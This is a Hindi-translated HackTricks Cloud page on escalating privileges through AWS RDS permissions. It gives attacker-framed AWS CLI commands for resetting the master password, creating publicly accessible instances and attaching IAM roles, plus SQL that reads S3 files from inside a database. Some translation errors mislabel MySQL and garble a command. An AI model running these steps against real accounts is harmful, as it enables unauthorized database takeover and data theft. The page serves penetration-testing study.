 # AWS - RDS विशेषाधिकार प्राप्ति

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण को देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके।

</details>

## RDS - संबंधित डेटाबेस सेवा

RDS के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

इस अनुमति के साथ एक हमलावर मास्टर उपयोगकर्ता के पासवर्ड को **संशोधित कर सकता है**, और डेटाबेस के भीतर लॉगिन को भी:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
आपको डेटाबेस से संपर्क करने की क्षमता होनी चाहिए (वे आमतौर पर केवल नेटवर्क के अंदर से ही पहुंचने योग्य होते हैं)।
{% endhint %}

**संभावित प्रभाव:** डेटाबेस में संवेदनशील जानकारी खोजें।

### rds-db:connect

[**दस्तावेज़**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) के अनुसार, इस अनुमति के साथ एक उपयोगकर्ता डीबी इंस्टेंस से कनेक्ट कर सकता है।

### RDS रोल IAM अनुमतियों का दुरुपयोग

#### Postgresql (Aurora)

{% hint style="success" %}
यदि आप **`SELECT datname FROM pg_database;`** चलाते हुए एक डेटाबेस जिसका नाम **`rdsadmin`** है, तो आप जानते हैं कि आप **AWS postgresql डेटाबेस** के अंदर हैं।
{% endhint %}

सबसे पहले आप यह जांच सकते हैं कि क्या इस डेटाबेस का उपयोग किसी अन्य AWS सेवा तक पहुंचने के लिए किया गया है। आप इंस्टॉल की गई एक्सटेंशन्स की देख सकते हैं:
```sql
SELECT * FROM pg_extension;
```
यदि आपको **`aws_s3`** जैसी कुछ मिलता है, तो आप मान सकते हैं कि इस डेटाबेस के पास **S3 पर कुछ प्रकार का एक्सेस** है (इसके अलावा **`aws_ml`** और **`aws_lambda`** जैसे अन्य एक्सटेंशन भी हो सकते हैं)।

इसके अलावा, यदि आपको **`aws rds describe-db-clusters`** चलाने की अनुमति है, तो आप देख सकते हैं कि क्लस्टर में क्या **IAM रोल लगा हुआ है** फ़ील्ड **`AssociatedRoles`** में। यदि हां, तो आप मान सकते हैं कि डेटाबेस **अन्य AWS सेवाओं तक पहुंच के लिए तैयार की गई है**। रोल के **नाम** (या यदि आप **रोल की अनुमतियों** को प्राप्त कर सकते हैं) के आधार पर आप यह **अनुमान लगा सकते हैं** कि डेटाबेस के पास कौन सी अतिरिक्त पहुंच है।

अब, **बाल्टी के अंदर एक फ़ाइल पढ़ने** के लिए आपको पूरा पथ जानना चाहिए। आप इसे इस तरीके से पढ़ सकते हैं:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
यदि आपके पास **असंसाधित AWS क्रेडेंशियल्स** होते हैं, तो आप उन्हें उपयोग करके S3 डेटा तक पहुंच सकते हैं:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql को S3 तक पहुंचने के लिए कोई पैरामीटर ग्रुप चर को बदलने की आवश्यकता नहीं होती है।
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
माइक्रोसॉफ्ट एक्सेस डेटाबेस में, यदि आप क्वेरी **`SELECT User, Host FROM mysql.user;`** चलाते हैं और एक उपयोगकर्ता **`rdsadmin`** के नाम से है, तो आप मान सकते हैं कि आप **AWS RDS mysql db** के अंदर हैं।
{% endhint %}

माइक्रोसॉफ्ट एक्सेस डेटाबेस में **`show variables;`** चलाएं और यदि चर जैसे **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** के मान हैं, तो आप मान सकते हैं कि डेटाबेस S3 डेटा तक पहुंचने के लिए तैयार है।

इसके अलावा, यदि आपको **`aws rds describe-db-clusters`** चलाने की अनुमति है, तो आप यह जांच सकते हैं कि क्लस्टर के कोई **संबद्ध भूमिका** है, जो आमतौर पर AWS सेवाओं तक पहुंच का मतलब होता है।)

अब, एक बकेट के अंदर की फ़ाइल पढ़ने के लिए आपको पूरा पथ जानने की आवश्यकता होती है। आप इसे निम्नलिखित के साथ पढ़ सकते हैं:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

एक हमलावर `rds:AddRoleToDBCluster` और `iam:PassRole` अनुमतियों के साथ एक निर्धारित भूमिका को एक मौजूदा RDS इंस्टेंस में जोड़ सकता है। यह हमलावर को संवेदनशील डेटा तक पहुंच या इंस्टेंस के भीतर डेटा को संशोधित करने की अनुमति दे सकता है।
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**पोटेंशियल प्रभाव**: RDS इंस्टेंस में संवेदनशील डेटा तक पहुंच या अनधिकृत संशोधन।\
ध्यान दें कि कुछ डीबी को अतिरिक्त कॉन्फ़िगरेशन की आवश्यकता होती है, जैसे कि Mysql, जिसमें aprameter समूहों में भूमिका ARN को निर्दिष्ट करने की आवश्यकता होती है।

### `rds:CreateDBInstance`

केवल इस अनुमति के साथ ही एक हमलावर एक **मौजूदा क्लस्टर के अंदर एक नया इंस्टेंस** बना सकता है और इसमें एक **IAM भूमिका** जुड़ी होती है। उसे मास्टर उपयोगकर्ता का पासवर्ड बदलने की अनुमति नहीं होगी, लेकिन उसे नई डेटाबेस इंस्टेंस को इंटरनेट पर प्रकट करने की संभावना हो सकती है:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
कार्यविधि: परीक्षण करें
{% endhint %}

`rds:CreateDBInstance` और `iam:PassRole` अनुमतियों के साथ एक हमलावर **नया RDS इंस्टेंस बना सकता है जिसमें एक निर्दिष्ट भूमिका संलग्न होती है**। हमलावर फिर संभावित रूप से **संवेदनशील डेटा तक पहुंच सकता है** या इंस्टेंस में डेटा को संशोधित कर सकता है।

{% hint style="warning" %}
यहां दिए गए कुछ आवश्यकताएं हैं जिन्हें भूमिका / इंस्टेंस-प्रोफ़ाइल को संलग्न करने की आवश्यकता होती है (यहां से [**यहां**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html) देखें):

* प्रोफ़ाइल आपके खाते में मौजूद होना चाहिए।
* प्रोफ़ाइल में एक IAM भूमिका होनी चाहिए जिसे Amazon EC2 को अवलंबित होने की अनुमति होती है।
* इंस्टेंस प्रोफ़ाइल नाम और संबंधित IAM भूमिका नाम `AWSRDSCustom` प्रीफ़िक्स के साथ शुरू होना चाहिए।
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**पोटेंशियल प्रभाव**: RDS इंस्टेंस में संवेदनशील डेटा तक पहुंच या डेटा में अनधिकृत संशोधन।

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance` और `iam:PassRole` अनुमतियों के साथ एक हमलावर एक मौजूदा RDS इंस्टेंस में एक निर्दिष्ट भूमिका जोड़ सकता है। इससे हमलावर को इंस्टेंस के भीतर संवेदनशील डेटा तक पहुंच मिल सकती है या डेटा में संशोधन कर सकती है।

{% hint style="warning" %}
इसके लिए डीबी इंस्टेंस को क्लस्टर के बाहर होना चाहिए
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**संभावित प्रभाव**: RDS इंस्टेंस में संवेदनशील डेटा तक पहुंच या डेटा में अनधिकृत संशोधन।

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स को** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके साझा करें।

</details>
